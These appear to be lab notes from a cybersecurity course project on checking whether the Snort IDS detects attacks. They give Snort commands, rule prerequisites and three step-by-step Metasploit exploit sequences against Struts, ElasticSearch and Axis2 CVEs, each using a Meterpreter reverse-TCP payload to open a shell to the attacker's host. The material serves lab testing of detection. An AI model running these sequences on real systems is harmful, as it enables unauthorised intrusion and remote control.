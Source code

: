 cybersecurity base project 2 notes

<REMOTEHOST> = 192.168.0.3
<LOCALHOST> = 192.168.0.4
<SNORTINTERFACE> = 1

snort test: C:\Snort\bin\snort -c c:\Snort\etc\snort.conf -T -i <SNORTINTERFACE>
snort IDS: C:\Snort\bin\snort -d -l C:\snort\log -i 1 -c c:\Snort\etc\snort.conf -A console

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo

-----------------------------------------------
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

	
